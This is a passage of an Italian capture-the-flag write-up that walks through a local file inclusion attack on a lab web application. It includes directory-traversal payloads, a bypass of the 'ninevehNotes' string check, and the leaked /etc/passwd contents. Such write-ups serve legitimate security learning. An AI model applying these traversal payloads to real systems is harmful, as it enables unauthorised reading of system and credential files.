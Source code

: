 `http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt`

Quando vediamo un percorso di file, la prima cosa che bisognerebbe provare è un LFI. Ho provato e non ha funzionato esattamente. Quando provo la seguente stringa

```
../../../../../../../etc/passwd
```

Ricevo un messaggio "Nessuna nota selezionata". Tuttavia, quando provo la seguente stringa

```
files/ninevehNotes/../../../../etc/passwd
```

Ricevo un messaggio di avviso.

```
Warning:  include(files/ninevehNotes/../../../../etc/passwd): failed to open stream: No such file or directory in /var/www/html/department/manage.php on line 31



Warning:  include(): Failed opening 'files/ninevehNotes/../../../../etc/passwd' for inclusion (include_path='.:/usr/share/php') in /var/www/html/department/manage.php on line 31

```

Se rimuovo "ninevehNotes" dall'URL

```
files/../../../../etc/passwd
```

Sono tornato al messaggio "Nessuna nota selezionata". Questo mi porta a credere che sia vulnerabile a LFI, tuttavia, c'è un controllo sul backend che cerca la stringa "ninevehNotes" poiché la mia query non funziona senza di essa.
Secondo l'errore, siamo nella directory /www/html/department/, quindi dobbiamo andare tre directory sopra. Proviamo con questa stringa.

```
[http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../etc/passwd]
```

Funziona !!

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
```